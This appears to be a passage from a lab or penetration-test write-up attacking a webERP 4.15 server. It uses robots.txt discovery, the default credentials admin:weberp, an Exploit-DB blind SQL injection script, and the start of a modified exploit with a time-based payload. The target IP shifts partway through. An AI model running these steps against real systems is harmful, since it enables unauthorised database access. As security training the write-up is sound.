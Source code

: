 Viewing robots.txt we discover /weberp/index.php.

┌──(kali㉿kali)-[~]
└─$ curl http://172.16.201.19/robots.txt                                     
User-agent: *
Allow: /weberp/index.php
Navigating to http://192.168.100.72/weberp we see the real login form of webERP.

weberp
weberp
We proceed by searching for potential exploits and discover WebERP 4.15 - SQL injection.

Exploitation
According to the script, we require credentials for exploitation.

Before attempting to brute force credentials, we test default credentials for webERP and find that we are able to successfully authenticate with admin:weberp.

We begin by downloading the exploit to our attack machine.

kali@kali:~$ wget https://www.exploit-db.com/raw/47013
We view the usage info:

(+) usage: <filename> <target> <path> <login> <password> <order>
(+) eg: <filename> 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
Now we execute the exploit with the credentials admin:weberp.

kali@kali:~$ python 47013 192.168.100.72 "weberp/" admin weberp 0
Blind sqli is confirmed
From the output we see that the target is vulnerable to blind SQLi.

To proceed, we need to find the SQL server version, the number of databases, and each database's name.

We know that webERP works on MySQL version 4.3 or above based on the Software Requirements.

To determine the number of databases on the target we need to modify our previous exploit to reflect the following:

if __name__ == "__main__":
    #proxies = {'http':'127.0.0.1:8080'}
    proxies = {}
    
    if len(sys.argv) != 6:
        print '(+) usage: %s <target> <path> <login> <password> <order>' % sys.argv[0]
        print '(+) eg: %s 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
        print 'Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
        exit()
    
    ip = sys.argv[1] + "/" + sys.argv[2]
    
    #if don't have php, set Payload to the next one to check this time-based SQLi: YToxOntpOjA7czoyMzoiMCB3aGVyZSBzbGVlcCgxKT0xOy0tIC0iO30=
    #payload = generatePayload("0 where sleep(1)=1;-- -", "0")
    